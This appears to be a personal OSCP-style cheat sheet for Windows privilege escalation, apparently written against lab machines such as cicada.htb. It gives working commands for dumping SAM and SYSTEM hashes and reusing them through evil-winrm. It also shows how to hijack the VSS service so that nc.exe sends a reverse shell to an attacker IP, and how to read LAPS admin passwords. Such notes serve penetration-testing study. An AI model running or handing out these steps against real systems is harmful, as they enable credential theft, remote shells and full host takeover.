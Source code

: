 ## Start here
Also try this: https://github.com/nestef23/my-OSCP-notes/blob/main/PrivilegeEscalation/Windows.md

Check user privileges
```
whoami /priv
```
Interesting entries include:
- SeBackupPrivilege (get arbitrary file read; described below)
- SeLoadDriverPrivilege (load a vulnerable driver and exploit it)
- SeMachineAccountPrivilege (add a machine to the domain)

Check user groups
```
whoami /groups
```
Interesting entries include:
- Server Operators (start and stop services; described below)
- LAPS_Readers (custom group related to LAPS; described_below)

## SeBackupPrivilege
SeBackupPrivilege privilege exploitation

Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
Use the hashes (2nd part is the NT hash) with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

## Server Operators
Server Operators group exploitation

Create malicious service that creates privileged reverse shell nc.exe
```
# Using evil-winrm session, place the nc.exe in the same folder on Kali linux
# nc.exe will be uploaded to the current folder on the Windows host
upload nc.exe

# check running services
sc.exe query

# modify the config of 'vss' service (as this is a popular service) to point to nc.exe
# The 2nd one will not timeout
sc.exe config vss binPath="C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444"
sc.exe config vss binpath="C:\windows\system32\cmd.exe /c C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444""

# On Kali prepare for the connection
nc -nlvp 4444

# Restart the service
sc.exe stop VSS
sc.exe start VSS
```
The above-obtained shell is unstable and might die after a few seconds. A more efficient way would be to obtain a meterpreter shell and then quickly migrate to a more stable process.

Refer to: https://github.com/nestef23/my-OSCP-notes/blob/e963b72f058faffbab4a14b35eb2f6878be04900/InitialAccess/revshells.md#with-msfvenom

## LAPS_Readers
Query the ms-mcs-admpwd property, which is the Local Admin password!
```
Get-ADComputer <hostname> -property 'ms-mcs-admpwd'
```
Use it with evil-winrm
```
evil-winrm -i <domain> -u administrator -p '<pass>'
```

